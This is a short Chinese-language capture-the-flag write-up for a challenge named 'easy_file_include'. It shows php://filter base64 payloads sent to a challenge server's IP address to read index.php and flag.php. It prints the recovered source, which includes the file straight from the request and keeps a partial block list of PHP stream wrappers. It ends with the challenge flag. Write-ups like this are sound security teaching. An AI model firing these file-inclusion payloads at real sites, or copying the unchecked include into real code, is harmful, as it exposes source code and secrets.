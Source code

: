 ## easy_file_include

- 查资料：https://www.jianshu.com/p/6af8e76d22a5<-拿这个payload试了下可以用

  > payload:http://106.15.207.47:21002/?file=php://filter/read=convert.base64-encode/resource=./index.php

  得到源码：

  ```php
  <meta charset="utf8">
  <?php
  error_reporting(0);
  $file = $_GET["file"];
  if(stristr($file,"php://input") || stristr($file,"zip://") || stristr($file,"phar://") || stristr($file,"data:")){
  	exit('hacker!');
  }
  if($file){
  	include($file);
  }else{
  	echo '<a href="?file=flag.php">tips</a>';
  }
  ?>
  ```

  好像并没有什么用，直接读`flag.php`发现flag就在注释里...

  > payload:http://106.15.207.47:21002/?file=php://filter/read=convert.base64-encode/resource=./flag.php

  ```php
  <?php
  echo "Can you find out the flag?";
  //ACTF{Fi1e_InClUdE_Is_EaSy}
  ```